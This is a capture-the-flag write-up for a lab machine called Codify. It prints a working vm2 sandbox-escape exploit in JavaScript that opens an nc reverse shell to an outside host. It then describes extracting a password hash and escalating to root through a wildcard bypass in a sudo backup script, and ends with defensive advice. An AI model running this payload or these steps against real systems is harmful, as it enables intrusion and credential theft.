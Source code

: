 ## Information

| Property     | Value                       |
|--------------|-----------------------------|
| **Name**     | Codify   |
| **IP Address**|  10.10.11.239      |
| **OS**       |   Linux      |
| **Difficulty**| Easy   |

## Enumeration
### Nmap Scan
```bash
nmap -sC -sV -oN nmap_scan.txt -Pn 
```


```bash
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Codify
3000/tcp open  http    syn-ack Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Codify
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Hostname:** http://codify.htb/
## Initial Access
### Port [80] - [Codify Web Application]

![](Codify%20Writeup%20-%20Codify%20Web%20Application.png)

The application serves an Node JS editor in a sandboxed environment using [vm2 library](https://github.com/patriksimek/vm2)


![](Codify%20Writeup%20-%20Editor.png)


#### Vulnerability Exploited

VM2 library sufferes from a[ sandbox escape vulnerability](https://www.bleepingcomputer.com/news/security/new-sandbox-escape-poc-exploit-available-for-vm2-library-patch-now/)  that makes it possible to execute unsafe code on a host running the VM2 sandbox.
#### Exploitation Steps

Executing the following code will result in a reverse shell establishment: 
```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.5 1337 >/tmp/f'); }
            )
        }
    }
};
p.then();
`;

console.log(vm.run(code));
```

The malicious code gets executed a low priveleged user called  **scv**, we need to escalate our priveleged to the second user called **Joshua.**

### User Access

The tickets database found under /var/www/contact contains Joshua hashed password. 

```bash
(remote) svc@codify:/var/www/contact$ strings tickets.db 
SQLite format 3
otableticketstickets
CREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P
Ytablesqlite_sequencesqlite_sequence
CREATE TABLE sqlite_sequence(name,seq)
	tableusersusers
CREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
    ))
indexsqlite_autoindex_users_1users
joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/<REDACTED>G/p/Zw2
joshua
users
tickets
Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open
Tom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!open

```
#### User Flag

Cracking the password will reveal the user's password which can be used to establish an ssh connection to the box. 

## Privilege Escalation

Joshua can run the following script with elevated privileges: 
```
joshua@codify:~$ sudo -l 
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'

```

No escaping on the user password can be bypassed with a wildcard character:

Resource:
https://superuser.com/questions/1056183/using-a-wildcard-in-a-condition-to-match-the-beginning-of-a-string


Then running pspy with recursive mode on the backup directory to retrieve the password when the mysqldump command gets executed: 


```bash
./pspy64 -r /var/backups/mysql
...
2023/11/13 19:58:28 CMD: UID=0     PID=1      | /sbin/init 
2023/11/13 19:58:29 CMD: UID=0     PID=23715  | /bin/bash /opt/scripts/mysql-backup.sh -x 
2023/11/13 19:58:29 CMD: UID=0     PID=23714  | sudo /opt/scripts/mysql-backup.sh -x 
2023/11/13 19:58:29 CMD: UID=0     PID=23713  | sudo /opt/scripts/mysql-backup.sh -x 
2023/11/13 19:58:31 CMD: UID=0     PID=23725  | /bin/bash /opt/scripts/mysql-backup.sh -x 
2023/11/13 19:58:31 CMD: UID=0     PID=23724  | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 mysql 
2023/11/13 19:58:31 CMD: UID=0     PID=23729  | /bin/bash /opt/scripts/mysql-backup.sh -x 
2023/11/13 19:58:31 CMD: UID=0     PID=23728  | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12REDACTEDkjh3 sys 
...

```


#### Root Flag

The extracted password is the root password and can be used to su through. 
## Conclusion

1. **Initial Access:**
    - **Tactic:** Exploit Public Facing Application
    - **Technique:** Exploitation for Client Execution
    - **MITRE ATT&CK ID:** T1190

1. **Execution:**
    - **Tactic:** Execution
    - **Technique:** Exploitation for Client Execution
    - **MITRE ATT&CK ID:** T1203

2. **Privilege Escalation:**
    - **Tactic:** Privilege Escalation
    - **Technique:** Abuse Elevation Control Control Mechanism
    - **MITRE ATT&CK ID:** T1548.002

3. **Credential Access:**
    - **Tactic:** Credential Access
    - **Technique:** Input Capture
    - **MITRE ATT&CK ID:** T1056

![](Codify%20Writeup%20-%20Mitre%20Attack%20Mapping-1.png)

## Additional Notes
### Defensive Techniques
- Keep software and libraries up to date to patch known vulnerabilities.
- Implement proper input validation and sanitization in the web application to prevent injection attacks.
- Review and restrict sudo permissions to only necessary commands and users.
- Don't input sensitive data, such as passwords, directly as bash commands from the command line to prevent accidental exposure.


